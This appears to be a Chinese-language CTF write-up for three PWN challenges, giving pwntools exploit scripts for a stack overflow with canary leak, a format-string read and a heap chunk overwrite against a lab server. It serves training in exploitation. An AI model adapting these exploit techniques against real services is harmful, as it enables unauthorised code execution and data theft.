



# PWN Writeups

PWN 题目及 Docker 在本仓库 `/docker/pwn` 目录下。

## easy_stack

[栈溢出][https://ctf-wiki.org/pwn/linux/stackoverflow/stackoverflow-basic/]

```python
from pwn import *

context.log_level = 'debug'

a = remote('10.10.175.98', 30000)
recv = a.recvuntil('please')
canary = u64(recv[0x108:0x110])
a.sendlineafter('voice', '-1')
a.sendlineafter('out', 0x108 * b'A' + p64(canary) + b'A' * 8 + p64(0x401256))
a.interactive()
```



## ez_printf

[字符串格式化漏洞][https://ctf-wiki.org/pwn/linux/fmtstr/fmtstr_intro/]

```python
from pwn import *
import ctypes

context.log_level = 'debug'

a = remote('10.10.175.98', 30002)
a.sendlineafter('address:\n', b'%9$sAAAA' + p64(0x4040B0))
secret = ctypes.c_int64(u64(a.recv(8))).value
a.sendlineafter('secret', str(secret))
a.interactive()
```



## ez_heap

[堆溢出][https://ctf-wiki.org/pwn/linux/glibc-heap/fastbin_attack/]

```python
from pwn import *

context.log_level = 'debug'

a = remote('10.10.175.98', 30001)
a.sendline(b'a' * 0x10 + p64(0) + p64(0x21) + p64(0x2160))
a.interactive()
```



（注：由于不知道堆的地址，因此需要多次尝试）
